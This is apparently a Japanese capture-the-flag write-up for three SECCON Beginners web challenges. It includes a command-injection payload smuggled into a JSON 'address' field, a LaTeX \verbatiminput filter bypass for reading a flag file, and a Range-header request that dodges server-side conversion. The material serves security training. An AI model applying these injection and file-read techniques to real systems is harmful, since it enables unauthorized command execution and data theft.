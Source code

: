 ```
```


## web
### Util
OS Command Injection
ブラウザからは直接打てないのでBurpなり、curlなりを使って直接送信する。
```
POST /util/ping HTTP/1.1
Host: util.quals.beginners.seccon.jp
Content-Type: application/json
Content-Length: 26
Connection: close

{"address":";ls -al ../;"}
```

flagのファイル名が'flag_A74FIBkN9sELAjOc.txt'とわかるので上のコマンドをcat flag_xxx.txtにしてflagげと

### textex
texのテキストを渡すとそれをpdfに変換してくれる。

'flag'の文字列があると弾かれるので、
ファイルを埋め込む構文と変数を使ってpdfに埋め込む

```
\documentclass{article}
\usepackage{verbatim}
\newcommand{\fl}{fl}
\newcommand{\ag}{ag}
\begin{document}

This is a sample.

\verbatiminput{\fl\ag}

\end{document}

```

### gallery
ファイルの閲覧サービス
拡張子で検索する機能でflagのファイル名を特定

https://gallery.quals.beginners.seccon.jp/?file_extension=fl

普通にflagを取得しようとすると?だけのテキストが返ってくる。
サーバ側で10240を超えるファイルだと変換されてしまうみたいなのでRangeヘッダを使用する。

```
GET /images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf HTTP/1.1
Host: gallery.quals.beginners.seccon.jp
Range: bytes=0-10239
Connection: close
```
